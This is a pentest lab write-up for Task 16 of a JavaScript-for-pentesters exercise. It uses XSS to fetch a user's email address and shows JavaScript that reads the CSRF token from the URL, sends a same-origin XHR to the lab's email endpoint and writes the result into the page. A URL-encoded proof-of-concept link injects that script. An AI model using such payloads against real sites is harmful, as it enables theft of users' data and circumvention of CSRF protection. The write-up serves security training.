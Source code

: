 ## Task 16 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/16?csrf_token=87756351612121977981321312312123123126554427773)</small>

Objectives:

1. Find John's Email Address using an XSS vulnerability on this page
2. Display the Email address in the div with id "result"
3. No Hardcoded values can be used - everything has to be figured out dynamically

Since the CSRF Token value of user can change, we need use some JS oriented way to get the query parameter and send the XHR to the below url

![](https://i.ibb.co/QF3vQDW/Screenshot-20201226-012703.png)

You can use [Location.search](https://developer.mozilla.org/en-US/docs/Web/API/Location/search) to get the query paramter dynamically and [URLSearchParams](https://developer.mozilla.org/en-US/docs/Web/API/URLSearchParams/URLSearchParams) to parse them

```js
const qp = new URLSearchParams(location.search);
qp.set("name", "john");

const xhttp = new XMLHttpRequest();

xhttp.onreadystatechange = function () {
  if (this.readyState == 4 && this.status == 200) {
    document.querySelector("#result").innerText = xhttp.responseText;
  }
};
xhttp.open("GET", "http://pentesteracademylab.appspot.com/lab/webapp/jfp/16/email?" + qp.toString(), true);
xhttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhttp.send();
```

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/16?csrf_token=87756351612121977981321312312123123126554427773&url=%3Cscript%3E%0Aconst%20qp%20%3D%20new%20URLSearchParams%28location.search%29%3B%0Aqp.set%28%22name%22%2C%20%22john%22%29%3B%0A%0Aconst%20xhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%0Axhttp.onreadystatechange%20%3D%20function%20%28%29%20%7B%0A%20%20if%20%28this.readyState%20%3D%3D%204%20%26%26%20this.status%20%3D%3D%20200%29%20%7B%0A%20%20%20%20document.querySelector%28%22%23result%22%29.innerText%20%3D%20xhttp.responseText%3B%0A%20%20%7D%0A%7D%3B%0Axhttp.open%28%22GET%22%2C%20%22http%3A%2F%2Fpentesteracademylab.appspot.com%2Flab%2Fwebapp%2Fjfp%2F16%2Femail%3F%22%20%2B%20qp.toString%28%29%2C%20true%29%3B%0Axhttp.setRequestHeader%28%22Content-Type%22%2C%20%22application%2Fx-www-form-urlencoded%22%29%3B%0Axhttp.send%28%29%3B%0A%3C%2Fscript%3E)
